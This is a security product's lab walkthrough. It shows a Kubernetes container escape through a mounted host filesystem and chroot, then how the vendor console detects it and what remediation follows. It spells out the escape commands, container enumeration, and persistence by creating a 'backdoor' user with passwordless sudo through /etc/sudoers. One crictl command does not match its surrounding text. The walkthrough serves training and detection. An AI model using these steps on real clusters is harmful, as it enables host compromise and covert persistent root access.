

# Container Escape Using Chroot

## Running the Exploit

> This exploit is based on <a href="https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-4/container-escape-to-the-host-system-in-kubernetes-containers/welcome" target="_blank">a Kubernetes Goat scenario</a>, updated to be compatible with modern Kubernetes.

One of the assets we have added to the cluster is a system monitor that has more permissions than is necessary. In this demo, we will exploit those extra permissions to escape the container environment and access the host machine. To start, use `kubectl exec` to access the container.

```sh
kubectl exec -it -n chroot $(kubectl get pods -n chroot -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

In this scenario, the attacker has exploited a vulnerability in an application running in this container, obtaining a shell in the container environment. In theory, this shell should be restricted to only this container environment. However, running `mount` reveals that there is a link to the host system:

```sh
mount | grep 'host' | head
```

At the top of the mount entries, there is a `/host-system` folder. Running `ls` shows what seems to be the host machine's root directory.

```
/dev/vda1 on /host-system type ext4 (rw,relatime,discard,errors=no-relo)
# ...
```
```sh
ls /host-system/
```
```
CHANGELOG  bin  boot  data  dev  etc  home  hosthome  init  lib  lib64  libexec  linuxrc  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

Additionally, running `capsh` shows that we have the chroot permission, allowing us to change our root to act like we are in the mounted host system:

```sh
capsh --print | grep chroot
```

```sh
chroot /host-system bash
```

Now, we are in the root directory of the host system, and acting as root, which gives us all kinds of access. Depending on the software that is available on the machine, there are a few different exploits we could attempt. We can use the `which` command to test a few different options:

```sh
which PROGRAM
```

<details>
    <summary>If <code>docker</code> is installed</summary>

With docker, we can see all of the pods that are running on the node:

```sh
docker ps
```

This will likely show many containers; to get a clearer picture, let's filter the output:

```sh
docker ps | grep 'payrolldb'
```

```
f1574caaf944   mongo                         "docker-entrypoint.s…"   2 minutes ago    Up 2 minutes     k8s_payrolldb_payrolldb-6cd444...9-ee3f1b0b1188_0
26dd4574d310   mongo                         "docker-entrypoint.s…"   2 minutes ago    Up 2 minutes     k8s_payrolldb_payrolldb-6cd444...52467_0
48aa23a10ad4   registry.k8s.io/pause:3.9     "/pause"                 2 minutes ago    Up 2 minutes     k8s_POD_payrolldb-6cd4447758-h...1b0b1188_0
fab536699cb3   registry.k8s.io/pause:3.9     "/pause"                 2 minutes ago    Up 2 minutes     k8s_POD_payrolldb-6cd4447758-l...0
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If <code>crictl</code> is installed</summary>

For this exercise, let's investigate the running pods and containers with `crictl`, then create persistence with a new user.

`crictl` is an alternative command-line control to docker that integrates with Kubernetes. To start, let's use it to list the available pods:

```sh
crictl pods
```

In the list of pods, you should see:

```
POD ID              CREATED             STATE               NAME                                         NAMESPACE           ATTEMPT             RUNTIME
...
53544824341d9       7 minutes ago       Ready               payrolldb-b4889ff59-frtgd                    payroll-prod        5                   (default)
b4c2899629bab       7 minutes ago       Ready               payroll-calculator-85c9955696-bqz48          payroll-prod        5                   (default)
ffe96bd760b35       7 minutes ago       Ready               payroll-calculator-85c9955696-kkz7t          payroll-prod        5                   (default)
...
```

Let's look at the containers that are named payrolldb:

```sh
crictl ps --name falco
```
```
CONTAINER           IMAGE                      CREATED             STATE               NAME                ATTEMPT             POD ID              POD
ae76168d27343       mongo@sha256:1a7...060be   8 minutes ago       Running             payrolldb           5                   53544824341d9       payrolldb-b4889ff59-frtgd
ef1a7665382ce       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   e053f9804b343       payrolldb-67d4cf9fd9-vtlc9
060e3cc5e6f72       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   8581f572b57c4       payrolldb-6cd4447758-hzldw
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If neither is installed</summary>

If we don't have the tools we need, that doesn't matter: we have root access. This means we can install anything we need, such as docker:

```sh
apt install docker
```

> Note: the package installer and package may vary depending on the machine. Try `yum` or `apk` if `apt` isn't available. If the package is not found, try searching for it or updating the package list (`apt update`).

</details>

Let's move on to creating persistence. To do this, we will create a new user:

```sh
adduser backdoor
```

Provide values for the password and name if asked, or hit enter to skip them. Next, we need to give the backdoor user permission to use `sudo` so that they can get root access:

```sh
echo 'backdoor ALL=(ALL) NOPASSWD: ALL' | sudo tee -a /etc/sudoers
```

Now, we can test our new user:

```sh
su - backdoor
sudo -l
```

```
User backdoor may run the following commands on system-monitor-deployment-5d49dd76b9-dmbqs:
    (ALL) NOPASSWD: ALL
```

From here, we could then install ssh keys for the backdoor user.

In summary, we gained access to a vulnerable Kubernetes container and exploited its excessive access to gain root privileges on the host machine. From there, we investigated all containers running on this node and created a backdoor user with root access for persistence.


## Investigating the Results

Performing this exploit will trigger several red flags that are detected and collected into a single Spydertrace object. In the Spyderbat Console, navigate to the Dashboard page. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "root_shell", or "container_escape_using_chroot...". Expanding the group name should show that it has an extremely high score of over 200, indicating a large number of linked high-severity flags. If the score is abnormally low (under 100), the data has likely not finished coming in yet. Refreshing after a minute should show a much higher score value. Selecting this Spydertrace, we can select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:



Here, we can clearly see the interactive Bash shell at the top of the container (the shaded box). Underneath, we can see the attacker running some investigation commands, escaping with the `chroot` command, and later investigating with `crictl` and creating persistence with `adduser`.

## Next Steps

Now that the vulnerable container has been identified and the backdoor user found, steps can be taken to end the existing access, update the pod configuration to remove the possibility of a chroot, and remove the new user from the cluster host machine to prevent the attacker from regaining access.

## Further Reading

For an example of lateral movement between pods instead of to the host system, see the [lateral movement within the cluster demo](../lateral/within.md). For an example of lateral movement between machines ouside of a cluster see the [multi-machine lateral movement demo](../lateral/outside.md).
